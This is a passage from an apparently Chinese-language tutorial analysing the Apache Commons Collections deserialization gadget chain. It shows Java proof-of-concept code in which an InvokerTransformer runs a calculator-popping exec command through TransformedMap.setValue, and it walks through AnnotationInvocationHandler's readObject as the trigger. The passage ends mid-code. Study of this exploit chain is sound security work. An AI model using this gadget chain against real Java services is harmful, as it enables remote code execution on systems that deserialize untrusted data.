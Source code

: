 **调用测试**

```java
Runtime r = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = (InvokerTransformer) new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});

        HashMap<Object,Object> map = new HashMap<>();
        map.put("key","value");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);
				//TransformedMap修饰的对象，这里遍历了它的所有元素，并依次设置值
        for(Map.Entry entry:transformedMap.entrySet()){
            entry.setValue(r); //调用setValue
        }
//弹计算器
```

继续在找调用setValue的地方。最好是readObject直接调用。AnnotationInvocationHandler的readObject刚好符合条件。

### AnnotationInvocationHandler

这个类实现Serializable接口，不能直接调用这个类，需要通过反射的的方式加载。这个类的构造方法，接收type和Map

```java
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```

readObject方法的关键是Map.Entry<String, Object> memberValue : memberValues.entrySet() 和 memberValue.setValue(...) 。memberValues就是反序列化后得到的Map，也是经过了TransformedMap修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用setValue设置值的时候就会触发TransformedMap里注册的Transform，进而执行我们为其精心设计的任意代码。

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
```